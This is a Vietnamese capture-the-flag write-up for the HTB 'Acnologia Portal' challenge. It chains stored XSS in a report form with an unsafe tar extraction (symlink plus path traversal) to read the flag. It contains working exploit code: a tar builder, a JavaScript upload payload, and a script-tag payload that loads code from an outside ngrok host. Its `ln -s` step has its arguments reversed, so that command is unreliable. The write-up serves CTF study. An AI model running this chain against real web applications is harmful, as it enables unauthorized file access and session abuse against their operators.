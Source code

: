 # HTB Cyber Apocalypse 2022 - Acnologia Portal

**Description**: Chall cho source code, một bài upload file via XSS.

*Note*: Flag nằm ở `/flag.txt`

## Review Source Code

file `blueprints/routes.py`:
```python
import json
# ........

@api.route('/login', methods=['POST'])
def user_login():
# ..........

@api.route('/register', methods=['POST'])
def user_registration():
# ........

# .....

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    visit_report()
    migrate_db()

    return response('Issue reported successfully!')

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403

@web.route('/review', methods=['GET'])
@login_required
@is_admin
def review_report():
    Reports = Report.query.all()
    return render_template('review.html', reports=Reports)

```

file `util.py`:
```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

Để review source-code, về cơ bản:

1. Website có tính năng report firmware cùng với description gửi cho admin(con bot) và chỗ này dính XSS.
2. Có tính năng update firmware hay upload file nhưng chỉ admin mới có thể dùng tính năng này.
3. Nếu file được upload là 1 file tar nó sẽ được tự động extract ra thư mục chứa file.
4. File name không hề được validate và dính lỗi path traversal.


**Ý tưởng**: Bởi vì chỉ admin mới có thể upload file, ta XSS tạo code javascript có chức năng tự request đến endpoint và upload 1 file tar, cái mà sẽ được tự động extract. File tar chứa file 1 symlink với tên path traversal `../../app/application/static/css/main.css` trỏ đến `../../../../flag.txt`. 

Từ đó, ta có thể truy cập đến `/static/css/main.css`(endpoint được public nay là 1 symlink) để đọc flag.

## Exploit 

**Step 1**: Đầu tiên ta tạo 1 file symlink có tên là `payload` trỏ đến `../../../../flag.txt`
```bash
ln -s payload ../../../../flag.txt
```
**Step 2**: file `createTar.py`: tạo 1 file tar và add file symlink và đổi tên thành `../../app/application/static/css/main.css`
```python
import tarfile

tar = tarfile.open("file.tar.gz","w:gz")

tar.add('payload', '../../app/application/static/css/main.css')
tar.list()
tar.close()
```

*Tham khảo*: 

https://docs.python.org/3/library/tarfile.html

https://linuxconfig.org/how-to-create-and-manipulate-tar-archives-using-python


Giờ đây ta được `file.tar.gz` gồm 1 symlink trỏ đến flag và tên path traversal overwrite `main.css`

**Step 3**: https://www.dubget.com/file-upload-via-xss.html

Một bài upload file thông qua XSS, ta tham khảo được javascrip function `base64toBlob()` nhận đầu vào là 1 file tar được encode dạng chuỗi base64 có thể decode lại dưới format binary.

```bash
cat file.tar.gz | base64 # Ta được chuỗi base64
```

**Step 4**: Với file dưới dạng chuỗi base64, và hàm `base64toBlob()` ta build tiếp payload XSS upload file tar này khi submit cho admin.

file `exploit.js`:
```js
// <script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>

var b64file = "H4sICLe0gmIC/2ZpbGUudGFyAO3TzUrEMBSG4ay9il5BfpvGLgZm6dJbCLUzBNuxTDPQyzdlQAVRF6Mj6PtwkhOSQLL5pJJqex+Xuz4+9EfxI/TZR11rV7+u132jrbGiWsQVnOYcj+V58T/Z22rMaew3pvE2OKfbVrrQOuObG4E/T0pVKk7TOobUxZyeDqpkIqdOdfOsxpgOsiwuzH8IYe0meP22v2Te1LbW3lnrndBlbryo7Plz72s3xL3MS/7O/D/GIX1276tzAAAAAAAAAAAAAAAA4Bc8A3dU6fEAKAAA";

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

// var file = new File([atob(base64)], "flag.tar.gz", {
//   type: "text/plain",
// });


var data = new FormData();
data.append('file', blob, 'file.tar.gz');

// LUU Y: May option nhu cors, headers... vo van co the prevent upload file.
fetch("http://localhost:1337/api/firmware/upload", {
  "body": data,
  "method": "POST"
});
```

**Step 5**: Cuối cùng file `exploit.py`, file này đơn giản là login rồi report payload XSS là 1 tag script trỏ đến file `exploit.js` ta đang host.
```python
import requests

url = 'http://134.209.177.202:31877'
s = requests.Session()

register = s.post(url+'/api/register', json={'username': '1', 'password': '1'})
login = s.post(url+'/api/login', json={'username': '1', 'password': '1'})

payload = '<script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>'
report = s.post(url+'/api/firmware/report', json={'module_id': '1', 'issue': payload})

print(report.text)
```

Chui đến: `http://ip:port/static/css/main.css` ta được flag

**flag**: `HTB{des3r1aliz3_4ll_th3_th1ngs}`

Attemp upload `__init__.py` để RCE luôn nhưng bất thành: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution
